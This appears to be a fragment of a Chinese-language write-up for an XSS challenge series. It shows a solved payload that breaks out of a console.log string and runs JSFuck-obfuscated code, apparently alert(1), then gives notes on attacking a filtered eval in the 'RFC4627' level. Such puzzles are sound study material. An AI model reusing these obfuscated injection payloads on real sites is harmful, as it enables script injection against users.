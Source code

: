 Output

```
<script>console.log("");[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])()//")</script>
```



## RFC4627

```javascript
function escape(text) {
  var i = 0;
  window.the_easy_but_expensive_way_out = function() { alert(i++) };

// "A JSON text can be safely passed into JavaScript's eval() function
// (which compiles and executes a string) if all the characters not
// enclosed in strings are in the set of characters that form JSON
// tokens."

  if (!(/[^,:{}\[\]0-9.\-+Eaeflnr-u \n\r\t]/.test(
          text.replace(/"(\\.|[^"\\])*"/g, '')))) {
    try { 
      var val = eval('(' + text + ')');
      console.log('' + val);
    } catch (_) {
      console.log('Crashed: '+_);
    }
  } else {
    console.log('Rejected.');
  }
}
```

过滤了一堆东西

`Eaeflnrunrstu`这几个字母没有被过滤

进try之后有一个eval可以搞事情

前面给出了`window.the_easy_but_expensive_way_out = function() { alert(i++) };`

`valueOf()`方法返回指定对象的原始值
